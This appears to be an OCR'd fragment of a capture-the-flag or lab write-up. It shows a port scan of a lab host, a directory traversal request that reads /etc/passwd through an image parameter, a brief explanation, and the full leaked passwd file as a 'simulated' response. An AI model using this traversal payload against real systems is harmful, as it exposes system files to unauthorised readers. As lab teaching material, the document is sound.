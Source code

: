
| Port | State | Service | Reason |
|---|---|---|---|
| 22 | open | ssh | syn-ack |
| 8080 | open | http-proxy | syn-ack |



| Field     | Description                                          |
|-----------|-------------------------------------------------------|
| Request   | `GET /show_image?img=../../../../../../../../etc/passwd` |
| Method    | GET                                                   |
| Host      | 10.10.11.204:8080                                       |
| User-Agent | Mozilla/5.0 (X11; Linux x86_64; rv:127.0) Gecko/20100101 Firefox/127.0 |
| ...       | (Other headers omitted for brevity)                    |

**Vulnerability:** Directory Traversal

**Explanation:** The attacker attempts to manipulate the file path by using "../../" sequences to move up the directory hierarchy and potentially reach restricted files like `/etc/passwd`.

**Response (Simulated):**

```json
HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 1986
Date: Tue, 18 Jun 2024 06:04:53 GMT
Keep-Alive: timeout=60
Connection: keep-alive

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```